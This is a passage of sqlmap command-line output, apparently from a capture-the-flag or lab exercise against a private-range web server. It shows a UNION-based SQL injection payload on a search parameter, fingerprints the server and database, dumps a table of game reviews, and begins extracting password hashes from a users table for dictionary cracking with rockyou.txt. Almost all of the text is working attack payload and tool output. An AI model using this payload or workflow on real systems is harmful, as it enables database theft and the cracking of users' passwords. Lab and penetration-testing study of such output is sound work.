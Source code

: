 ```text
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=test' UNION ALL SELECT NULL,NULL,CONCAT(0x7176717871,0x75456e594846767a627a696f4d55796e434f7652686e776849744f6e6d6c53554d43705875715358,0x7171766b71)#
---
[22:06:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[22:06:53] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[22:06:53] [INFO] fetching current database
[22:06:53] [INFO] fetching tables for database: 'db'
[22:06:54] [INFO] fetching columns for table 'post' in database 'db'
[22:06:54] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[22:06:54] [INFO] table 'db.post' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.13.164/dump/db/post.csv'
[22:06:54] [INFO] fetching columns for table 'users' in database 'db'
[22:06:54] [INFO] fetching entries for table 'users' in database 'db'
[22:06:54] [INFO] recognized possible password hashes in column 'pwd'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[22:07:01] [INFO] writing hashes to a temporary file '/tmp/sqlmapo7l6ufaf347892/sqlmaphashes-420lpe1l.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[22:07:07] [INFO] using hash method 'sha256_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 2
what's the custom dictionary's location?
> /usr/share/wordlists/rockyou.txt
```